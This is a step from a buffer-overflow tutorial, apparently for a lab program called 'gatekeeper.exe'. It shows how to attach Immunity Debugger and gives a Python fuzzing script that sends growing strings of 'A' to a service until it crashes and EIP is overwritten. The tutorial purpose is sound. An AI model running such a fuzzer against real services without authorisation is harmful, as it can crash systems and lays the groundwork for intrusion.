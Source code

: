 You need to install the Immunity Debugger and Mona Python Modules in order to proceed with the following in order to observer the results of our scripts and identify the memory address where the crash occurs.
Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Python template

```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 500

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("192.168.0.227",31337))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 500
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:

![Python_Spiking](runPythonSpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopPythonspiking.png)

We can see that the program crashed at 2,000 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
